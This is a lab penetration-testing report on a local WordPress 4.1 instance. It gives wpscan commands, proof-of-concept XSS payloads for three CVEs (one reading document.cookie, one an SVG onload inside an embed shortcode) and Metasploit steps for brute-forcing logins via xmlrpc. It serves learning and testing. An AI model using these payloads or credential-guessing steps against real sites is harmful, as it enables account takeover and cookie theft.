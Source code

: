 # Pen Testing Report On Wordpress
Testing certain penetration methods on WordPress 4.1

## Intial Scan
1.  The first step in my initial scan was to have the docker images of both wordpress and kali running. With kali invoked we will first update the WordPress scans database using 
wpscan --update

2.	Now, I ran wpscan against the running WordPress instance on my local host. Using the following command 
wpscan --url http://127.0.0.1:8080 --api-token YOUR_API_TOKEN
Once scan was run 92 vulnerabilities were found 
 ![](CodePath_WPintialScan.gif)

## Vulenabilities 
### 1. WordPress <= 5.0 - Authenticated Cross-Site Scripting (XSS)
 Fixed in: 4.1.25
References:
- https://wpscan.com/vulnerability/3182002e-d831-4412-a27d-a5e39bb44314
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20153
- https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/

 ![](first_Vuln_.gif)
 
 Steps to recreate:
 
 1. Login as admin
 
 2. Create a post as authenticated user.
 
 3. Paste script>alert(xss)</script>
 
 ### 2. WordPress 2.8-4.7 - Accessibility Mode Cross-Site Request Forgery (CSRF)
Fixed in: 4.1.14
References:
 - https://wpscan.com/vulnerability/e080c934-6a98-4726-8e7a-43a718d05e79
 - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5492
 - https://github.com/WordPress/WordPress/commit/03e5c0314aeffe6b27f4b98fef842bf0fb00c733
- https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/

![](secound_Vuln_.gif)

 Steps to recreate:
 
 1. Login as admin
 
 2. Create a post as authenticated user.

 3. <script>alert(document.cookie)</script>

 
 ### 3. WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
Fixed in: 4.1.16
References:
- https://wpscan.com/vulnerability/3ee54fc3-f4b4-4c35-8285-9d6719acecf0
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817
- https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
 - https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8
 - https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html
 
  Steps to recreate:
  
 1.Login as admin
 
 2.Create a post as authenticated user.
 
 3. Change from visual tab to text tab 

4. Paste [embed src='https://www.youtube.com/embed/1235689\x3csvg onload=alert(1)\x3e'][/embed]
 
![](four_Vuln_.gif)
 
### 4. Username and password enumeration using metasploit 
 
![](third_Vuln_.gif)

Steps to recreate 

1. start up metsplsoit 

2. Find correct payload, use following commands
   -search type:auxiliary wordpress xmlrpc
   -use auxiliary/scanner/http/wordpress_xmlrpc_login 
  
3. Set target and conditions for payload
   - setg RHOSTS 127.0.0.1
   - set RPORT 8080
   - set traget uri /
   - set STOP_ON_SUCESS
   - set username/password or useneme/password  files (ex. set PASS_FILE password.txt)
   - set Httptrace TRUE
   - run
 
 If your files contain the correct username and password once matched the payload will stop running. 

   


